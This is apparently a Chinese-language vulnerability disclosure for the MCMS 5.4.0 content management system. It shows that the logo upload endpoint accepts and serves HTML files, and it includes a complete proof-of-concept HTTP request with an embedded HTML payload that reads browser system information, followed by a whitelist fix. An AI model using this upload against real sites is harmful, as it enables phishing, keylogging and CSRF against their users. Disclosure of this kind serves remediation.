



# MCMS 5.4.0 

## 漏洞点

```
https://gitee.com/mingSoft/MCMS
```

MCMS 5.4.0 在网站logo上传处可以上传html文件并进行解析，通过返回的存储文件的路径，访问后可能造成钓鱼、通过js获取系统信息、键盘记录、CSRF等威胁。除此之外还可上传除黑名单外所有类型文件，可能造成服务器存储爆满

位置



payload

```
POST /ms/file/upload.do HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 2689
sec-ch-ua: 
sec-ch-ua-platform: ""
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyoIjBL5yhVIFSsGY
Accept: */*
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/ms/basic/app/app.do?
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: SHIRO_SESSION_ID=b3df8b93-1f58-4012-9ad9-4086cb48e544; rememberMe=AFQLjGWgW2OOTL65dVgTK9/5zXHVWiINa1AezkhFIoKWzN4dwiiRC29axJkUJiUVxn3k+27ZM3NWfDhymn9UQ8BiKQaP2IxyyT0JBRYThmtHJOtf7KPoomL9p/u6Vl5p+MXCMV8+Uuwpiij1SHAYaoEOYpwvU2slczE/sADPy8bg1m5QWV7uVwg6/7F6IBWCbaD4+fxcELlFbwmMlyE4HxFgh1FC5VK0YE9T2hi9bHtFCYdEER2SWCgOd1nUuK/rK4e+P635BeA3V8J7elnctNGCgz+CTKDwi6xhtPEWYY7qRyO6v1ACOoGSNyEJUsVmstjum6y+Ffs4S4PIG7cqlVTLjpiZcawc3ZbV9cYqRP+QA9iw6odkHtbLD/YebVa6nB6gZjbX8GMf2fDn+NZ8aAiBiobBhobc40pie7zbG5lwIKYTxdhj846jT2H8TmcuPm8nD/hyrSso1ZVtrJyBpdnpXuX+FCrPON5Od5tIX8FUsZFThOSaROI9+gX9MNxRewjGH2eOf+7MakA4Qur/VmEOnFQVk1vRTjkt9lDygf8qum5dWmzvIMlUCpzhEKUAZ9qGxicZMpD6bWGdYHUM8oh+4Qobw0MznisAutY4jDLNyoVatJ7detXIOd/RCsL2+Ym/B6MFsMA2HbkebBEDkzS9V9dIbVnKLAuhhjGP42e+ZxTjfMhgMHIpZOw61iBInfLBZKu3jE9iHbfHMTOjL+YnXEB0ovdNP8bLcONvGR0yd2JQcaxOcZp6vUJhDh9R7UWcRIx0+girIYj7s5exAJAGg4fZv7QMWPTuY/cRlc8V+fL9LtqbqoJhvRoLJkAKks7h2jQRrn2+5p+TqJwPdI0/ef+rmckbrRoANk/n/0Dpd3PEjYAc9GYUCzP6RJ6eSu8phXbUj13Y9cGFgVUBaaBitW5n3U7HlfHPgYaT7kUNezZaQzGrU/UO2Kgaex1Jk5EDeqwTs6J13EeQOBK9AU+FUeFfUrpBCeqdVNrWEjjSZLbDFM39TpK7xcbxc7ALOscM5XSZqvR3iS+6CVDAwOqNCT+MrD9xJa78NYpXH9ZSXBL5v4R5+CXXurKtcDphE371txiT/aAbItYI7T6h/gT1cq8uIc7Xfg2YWQAABJbm5PAgMpDfkZ8/qGvSBE3r7sUlZ6AoXdmGqVzMblVygQ0NbOz6tvooxR1Sd5Fn1Yi27qovqWxAf5eqk4lUPCcb1p/i6w50Fe/URr9EKtM6n2s7PrvTbPi7YSpK1j5iIYGEhj469Ctves591ug6GNnWskbNLbii+RMl2kOzFY9tq6Eg9rG97UUCzHd1IsNxj/uzdoZsShu5hlHtWTMCXsHFjS2EaYSVbNhg7Ho=; pageno_cookie=1
Connection: close

------WebKitFormBoundaryyoIjBL5yhVIFSsGY
Content-Disposition: form-data; name="uploadPath"

/appLogo
------WebKitFormBoundaryyoIjBL5yhVIFSsGY
Content-Disposition: form-data; name="isRename"

true
------WebKitFormBoundaryyoIjBL5yhVIFSsGY
Content-Disposition: form-data; name="appId"

true
------WebKitFormBoundaryyoIjBL5yhVIFSsGY
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>System Information</title>
    <style>
        body {
            font-family: Arial, sans-serif;
        }
        .info {
            margin-bottom: 20px;
        }
    </style>
</head>
<body>
    <h1>System Information</h1>
    <div class="info">
        <strong>User Agent:</strong><span id="userAgent"></span>
    </div>
    <div class="info">
        <strong>Platform:</strong><span id="platform"></span>
    </div>
    <div class="info">
        <strong>Language:</strong><span id="language"></span>
    </div>
    <div class="info">
        <strong>Online Status:</strong><span id="onlineStatus"></span>
    </div>
    <div class="info">
        <strong>Screen Resolution:</strong><span id="screenResolution"></span>
    </div>
    <div class="info">
        <strong>Browser Window Size:</strong><span id="windowSize"></span>
    </div>
    <div class="info">
        <strong>Time Zone:</strong><span id="timeZone"></span>
    </div>
    <div class="info">
        <strong>Cookie Enabled:</strong><span id="cookieEnabled"></span>
    </div>
    <script>
        function getSystemInfo() {
            document.getElementById('userAgent').textContent = navigator.userAgent;
            document.getElementById('platform').textContent = navigator.platform;
            document.getElementById('language').textContent = navigator.language || navigator.userLanguage;
            document.getElementById('onlineStatus').textContent = navigator.onLine ? 'Online' : 'Offline';
            document.getElementById('screenResolution').textContent = `${screen.width} x ${screen.height}`;
            document.getElementById('windowSize').textContent = `${window.innerWidth} x ${window.innerHeight}`;
            document.getElementById('timeZone').textContent = Intl.DateTimeFormat().resolvedOptions().timeZone;
            document.getElementById('cookie').textContent = navigator.cookieEnabled ? 'Enabled' : 'Disabled';
        }

        window.onload = getSystemInfo;
    </script>
</body>
</html>

------WebKitFormBoundaryyoIjBL5yhVIFSsGY--

```





## 修复建议

黑名单更改为白名单，只允许png、jpeg、jpg格式。限制用户上传次数，增加对文件进行删除的逻辑